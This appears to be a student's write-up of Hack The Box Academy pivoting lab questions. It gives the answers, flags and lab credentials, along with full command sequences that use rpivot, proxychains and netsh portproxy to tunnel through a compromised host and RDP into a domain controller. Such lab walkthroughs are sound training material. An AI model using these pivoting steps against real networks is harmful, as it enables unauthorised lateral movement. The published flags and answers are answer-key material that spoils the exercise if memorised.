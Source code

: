 
**What Meterpreter payload did we use to catch the bind shell session? (Submit the full path as the answer)**

Results: windows/x64/meterpreter/bind_tcp


###  Pivoting Around Obstacles

**From which host will rpivot's server.py need to be run from? The Pivot Host or Attack Host? Submit Pivot Host or Attack Host as the answer.**

Results: Attack Host


**From which host will rpivot's client.py need to be run from? The Pivot Host or Attack Host. Submit Pivot Host or Attack Host as the answer.**

Results: Pivot Host


**SSH to $ip with user "ubuntu" and password "HTB_@cademy_stdnt!". Using the concepts taught in this section, connect to the web server on the internal network. Submit the flag presented on the home page as the answer.**

```
# Kali, terminal 1, copy the rpivot folder and run the server 
scp -r rpivot ubuntu@$UbuntuIP:/home/ubuntu/
cd rpivot/ 
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0

# Kali, terminal 2, connect to the ubuntu machine and run the rpivot client
ssh ubuntu@$ip
cd rpivot/
python2.7 client.py --server-ip $KaliIP --server-port 9999

# Kali, terminal 3, edit proxychains4.conf file and add the line ' sock4 127.0.0.1 9050' at the last line
sudo nano /etc/proxychains4.conf  

# Kali, terminal 3, connect to the internal web server:
proxychains firefox-esr $ipWebServer
```

Results: I_L0v3_Pr0xy_Ch@ins


RDP to $ip  with user "htb-student" and password "HTB_@cademy_stdnt!". Using the concepts covered in this section, take control of the DC (172.16.5.19) using xfreerdp by pivoting through the Windows 10 target host. Submit the approved contact's name found inside the "VendorContacts.txt" file located in the "Approved Vendors" folder on Victor's desktop (victor's credentials: victor:pass@123) . (Format: 1 space, not case-sensitive)

```
# From kali, terminal 1, connect to the windows machine
xfreerdp  /u:"htb-student" /p:"HTB_@cademy_stdnt\!" /v:$ipWindows

# Run Powershell as Administrator and execute:
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=$IpInterface1Windows connectport=3389 connectaddress=$IpInterface2Windows

# Make sure the connection is saved
netsh.exe interface portproxy show v4tov4

# From kali, terminal 2, connect to the Target:
xfreerdp  /u:victor /p:pass@123 /v:$IpInterface1Windows:8080

# Browse to the file and capture the flag
```
